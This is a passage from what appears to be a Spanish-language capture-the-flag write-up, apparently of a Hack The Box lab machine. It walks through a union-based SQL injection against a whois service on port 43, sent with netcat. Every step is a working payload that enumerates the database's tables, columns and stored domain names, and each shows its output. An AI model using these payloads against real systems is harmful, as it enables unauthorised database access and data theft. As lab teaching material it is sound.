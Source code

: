     ```bash
    nc 10.10.10.155 43
    ') union select table_name,2 from information_schema.tables where table_schema = "whois"#
    #Output
    % This query returned 1 object
    customers
    ```

1. Qual son las columnas de la tabla customers

    ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers"#
    #Output
    % This query returned 3 object
    iddomaindata
    ```

    Aqui podria ser turbio y puede ser mejor de enumerar columnas por columnas

    ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 0,1#
    #Output
    % This query returned 1 object
    id

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 1,1#
    #Output
    % This query returned 1 object
    domain

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 2,1#
    #Output
    % This query returned 1 object
    data
    ```

1. Enumerar lo que hay a dentro de la columna domain

    ```bash
    nc 10.10.10.155 43
    ') union select domain,2 from customers#
    #Output
    % This query returned 4 object
    supersechosting.htbjustanotherblog.htbpwnhats.htbrentahacker.htb
    ```

    Aqui tambien se podria hacer un limit 0,1 1,1 etc...
